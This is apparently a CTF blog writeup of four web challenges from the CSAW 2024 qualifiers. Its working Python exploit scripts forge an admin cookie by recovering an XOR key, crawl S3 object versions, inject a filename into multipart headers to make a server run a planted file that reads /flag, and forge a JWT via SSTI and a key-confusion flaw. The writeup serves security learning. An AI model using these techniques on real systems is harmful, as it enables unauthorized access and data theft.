


+++ 
draft = false
date = 2024-09-10T21:04:14+09:00
title = "CSAW CTF 2024 Quals Writeup"
description = ""
slug = "csaw-ctf-2024-quals-writeup"
authors = []
tags = ["CTF", "web", "steganography", "English"]
categories = []
externalLink = ""
series = []
+++

## Intro

I played CSAW CTF 2024 Quals with team Jejupork, and solved all web challs. Here's the writeup for [log me in](), [bucketwars](), [charlies angels]() and [lost pyramid]().

## log me in (web)

Log me in was a simple flask application challenge with user registeration and login feature in it. The app will give flag if user's uid is 0(admin), but new user will always be registered as uid 1(user).

After authentication, the app makes auth token using custom encoding/decoding method. The encoding / decoding code is here.

```python
# Some cryptographic utilities
def encode(status: dict) -> str:
    try:
        plaintext = json.dumps(status).encode()
        out = b''
        for i,j in zip(plaintext, os.environ['ENCRYPT_KEY'].encode()):
            out += bytes([i^j])
        return bytes.hex(out)
    except Exception as s:
        LOG(s)
        return None

def decode(inp: str) -> dict:
    try:
        token = bytes.fromhex(inp)
        out = ''
        for i,j in zip(token, os.environ['ENCRYPT_KEY'].encode()):
            out += chr(i ^ j)
        user = json.loads(out)
        return user
    except Exception as s:
        LOG(s)
        return None
```

We can easily find out that `os.environ['ENCRYPT_KEY']` can be leaked by xoring authentication token with json serialized user object. Thus, we can make arbitrary user object and elevate our uid to admin.

- Code

```python
import requests
import json

# URL = 'http://localhost:9996'
URL = 'https://logmein1.ctf.csaw.io'

def encode_json(username, displayname, uid):
    data = {
        'username': username,
        'displays': displayname,
        'uid': uid
    }
    return json.dumps(dict(data)).encode()

r = requests.post(URL + '/register', data={
    'username': 'somelongusername',
    'password': 'somelongpassword',
    'displayname': 'somelongdisplayname'
})

r = requests.post(URL + '/login', data={
    'username': 'somelongusername',
    'password': 'somelongpassword'
})

session = r.cookies['info']

session = bytes.fromhex(session)

message = encode_json('somelongusername', 'somelongdisplayname', 1)

key = b''

for i in range(len(message)):
    key += bytes([session[i] ^ message[i]])

message_to_change = encode_json('somelongusername', 'somelongdisplayname', 0)
new_session = b''
for i in range(len(message_to_change)):
    new_session += bytes([key[i] ^ message_to_change[i]])

r = requests.get(URL + '/user', cookies={'info': new_session.hex()})
print(r.text)
```

## bucketwars (web)

The callenge gave me only one link which lead to a static site. After some investigation, I found out that this site was served from AWS S3 bucket, and it seems that I should abuse malconfigured bucket policy to get more information. On the site there was a hint about bucket object versions, so I used `list_object_versions` api to crawl every version of objects.

```python
import boto3
import jq
import json
import os.path

s3 = boto3.client('s3')
bucket_name = 'bucketwars.ctf.csaw.io'

response = s3.list_object_versions(Bucket=bucket_name)

response = json.loads(json.dumps(response, default=str))
files = jq.compile('.Versions[]|{Key: .Key,VersionId: .VersionId}').input(response).all()

for file in files:
    print(file)
    response = s3.get_object(Bucket=bucket_name, Key=file['Key'], VersionId=file['VersionId'])
    filename, fileext = os.path.splitext(file['Key'])
    with open('files/' + filename + '_' + file['VersionId'] + fileext, 'wb') as f:
        f.write(response['Body'].read())
```

Two suspicious versions of `index_v1.html` was found, one containing password, and other containing another bucket link with image.



The image was a steganography image, and I used steghide with the password to extract flag from the image.

`steghide extract -p versions_leaks_buckets_oh_my -sf ./sand-pit-1345726_640.jpg`

## charlies angels (web)

The challenge contains 2 service, one is a simple node js webapp that accepts/saves some data (angel?) from user and restores when needed. The other is an internal python backup server that saves and loads backup file for front webapp. The python server executes python code when loading `.py` backup file, else returns json file. Nodejs webapp uses internal python backup server as file storage, and communicates with `needle` module.



```js
app.post("/angel", (req, res) => {
  // some input processing ...
  req.session.angel = {
    name: req.body.angel.name,
    actress: req.body.angel.actress,
    movie: req.body.angel.movie,
    talents: req.body.angel.talents,
  };
  const data = {
    id: req.sessionID,
    angel: req.session.angel,
  };
  console.log(data);
  const boundary =
    Math.random().toString(36).slice(2) + Math.random().toString(36).slice(2);
  needle.post(
    BACKUP + "/backup",
    data,
    { multipart: true, boundary: boundary },
    (error, response) => {
      if (error) {
        console.log(error);
        return res
          .status(500)
          .sendFile("public/html/error.html", { root: __dirname });
      }
    }
  );
  return res.status(200).send(req.sessionID);
});
```




```python
@app.route('/backup', methods=["POST"])
def backup():
    if request.files:
        for x in request.files:
            file = request.files.get(x)
            for f in BANNED:
                if file.filename in f or ".." in file.filename:
                    return "ERROR"
            try:
                name = file.filename
                if "backups/" not in name:
                    name = "backups/" + name
                f = open(name, "a")
                f.write(file.read().decode())
                f.close()
            except:
                return "ERROR"
    else:
        backupid = "backups/" + request.json["id"] + ".json"
        angel = request.json["angel"]
        f = open(backupid, "a")
        f.write(angel)
        f.close()

    return "SUCCESS"

@app.route('/restore', methods=["GET"])
def restore():
    filename = os.path.join("backups/", request.args.get('id'))
    print(filename, flush=True, file=sys.stderr)
    restore = "ERROR"
    if os.path.isfile(filename + '.py'):
        try:
            py = filename + '.py'
            test = subprocess.check_output(['python3', py])
            if "csawctf" in str(test):
                return "ERROR"
            restore = str(test)
    # ...
    return restore
```



To save python file in internal python server, we need to send multipart file using needle. However, the `data` object only has `id` and `angel` field with fixed type, so needle just process the object as normal form data.

For example, the data

```json
{
  "a": {
    "b": 1
  }
}
```

Will be processed like this.

```html
--boundary
Content-Disposition: form-data; name="a[b]"

1
--boundary--
```

To resolve this, we can inject `"` to escape double-quote (just like SQLi) and make filename field on content-disposition, making the part recognized as file.[^1]



```python
import requests
import base64

# URL = 'http://localhost:1337'
URL = 'https://charliesangels.ctf.csaw.io'
r = requests.get(URL + '/angel')

sessionId = r.json()['id']
connect_sid = r.cookies['connect.sid']

print(f'sessionId: {sessionId}')
print(f'connect_sid: {connect_sid}')

r = requests.post(URL + '/angel', json={
    "angel": {
        "name": "test",
        "actress" : "test",
        "movie": "test",
        "talents": {
            "\"; filename=\"" + sessionId + ".py\"; test=\"": "import base64; print(base64.b64encode(open(\"/flag\", \"rb\").read()).decode())",
        }
    }
}, cookies={
    "connect.sid": connect_sid
})

print(r.text)

r = requests.get(URL + '/angel', cookies={
    "connect.sid": connect_sid
})


r = requests.get(URL + '/restore', cookies={
    "connect.sid": connect_sid,
})

print(r.text)
flag = base64.b64decode(r.text.lstrip('b\'').rstrip('\\n\''))
print(flag)
```

## lost pyramid (web)

The challenge contains stereotype jinja SSTI vulnerability on `render_template_string` function and JWT key confusion vulnerabilty (PyJWT==2.3.0)[^2]. Leak `KINGSDAY` and `PUBLICKEY` using SSTI vulnerability and use JWT key confusion vulnerability to generate arbitrary token and get flag.

```python
import requests
import jwt
import re

# URL = 'http://localhost:8050'
URL = 'https://lost-pyramid.ctf.csaw.io'

with requests.Session() as s:
    r = s.post(URL + '/scarab_room', data={
        'name': '{{KINGSDAY}}'
    })
    
    KINGSDAY = re.findall(r'Welcome to the Scarab Room, (.*) 𓁹𓁹𓁹</h1>', r.text)[0]
    print(KINGSDAY)

    r = s.post(URL + '/scarab_room', data={
        'name': '{{PUBLICKEY}}'
    })
    
    PUBLICKEY = re.findall(r'Welcome to the Scarab Room, b&#39;(.*)&#39; 𓁹𓁹𓁹</h1>', r.text)[0]
    print(PUBLICKEY)
    

    token = jwt.encode({
        "ROLE": "royalty",
        "CURRENT_DATE": KINGSDAY,
        "exp": 1924992000
    }, PUBLICKEY, algorithm="HS256")

    s.cookies.set('pyramid', token)

    r = s.get(URL + '/kings_lair')
    print(r.text)
```


[^1]: needle's implementation on multipart is [here](https://github.com/tomas/needle/blob/9454d7bdc94b5a9a9c8f60eafefb6408f83a9a37/lib/multipart.js#L40)
[^2]: CVE-2022-29217: Key confusion through non-blocklisted public key formats ([link](https://github.com/jpadilla/pyjwt/security/advisories/GHSA-ffqj-6fqr-9h24))
